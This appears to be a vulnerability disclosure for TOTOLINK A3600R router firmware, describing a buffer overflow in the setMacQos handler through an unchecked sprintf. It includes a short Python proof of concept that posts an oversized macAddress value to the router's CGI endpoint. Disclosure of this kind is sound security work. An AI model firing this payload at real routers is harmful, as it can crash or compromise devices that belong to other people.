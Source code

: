 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setMacQos` function. The `v8, result` variable receives the `priority, macAddress` parameter from a POST request. However, since the user can control the input of `priority, macAddress`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240721011626694](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721011626694.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"macAddress":"a"*0x1000, "topicurl":"setting/setMacQos"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721011821157](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721011821157.png)

